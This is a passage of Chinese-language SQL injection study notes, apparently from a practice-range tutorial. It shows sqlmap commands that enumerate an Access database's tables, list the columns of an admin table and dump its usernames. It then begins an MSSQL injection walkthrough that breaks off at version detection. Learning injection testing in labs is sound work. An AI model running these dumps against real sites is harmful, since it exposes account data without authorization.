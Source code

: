## 2.2 Sqlmap注入Access数据库
爆出access数据库存在的表，只能利用枚举的方式爆破。

```
sqlmap -u "xxx"  --tables
```


第一步问我们是否使用公共的库去爆破，我们选择：Y；

第二步选择默认的库文件：1 

第三步选择线程数：10



可以看出爆出了两个数据表：admin 、 specialty

爆出admin数据库中的列名

```
sqlmap -u "xxx" -T admin --columns
```


意思和上一步也是一样的。 



爆出admin表下username列的所有数据

```
sqlmap -u "xxx" -T admin -C username --dump-all
```





# 3 sqlSever数据库 注入（msSQL）
参考链接：

https://www.cnblogs.com/xishaonian/p/6173644.html


![image-20221112195346808](https://s2.loli.net/2022/11/25/8MBGvgPzr6Wo7km.png)



## 3.1 墨者靶场sqlsever

<img src="https://s2.loli.net/2022/11/25/S7AUP1OGpJYmLeq.png" alt="image-20221112200120511" style="zoom:33%;" />

1、判断数据库类型：

![image-20221112200210487](https://s2.loli.net/2022/11/25/Nx6P1ojrEJTtYev.png)

如果是mssql就正常显示



2、判断数据库版本
